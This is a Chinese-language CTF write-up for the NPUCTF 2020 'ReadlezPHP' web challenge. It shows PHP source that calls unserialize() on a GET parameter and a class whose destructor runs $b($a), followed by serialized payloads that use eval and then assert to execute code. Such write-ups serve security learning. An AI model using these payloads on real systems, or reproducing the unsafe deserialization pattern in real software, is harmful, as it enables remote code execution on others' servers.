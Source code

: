 # NPUCTF 2020

## Web

### ReadlezPHP

查看源代码可以发现 a 标签 `<a href="./time.php?source"></a>` ，访问后可以得到如下代码。

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

通过构造 Payload 如下

```
data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:4:"eval";}
```

回显 `500` ，估计被过滤了，修改 Payload 如下

```
data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

就可以找到 flag 了。
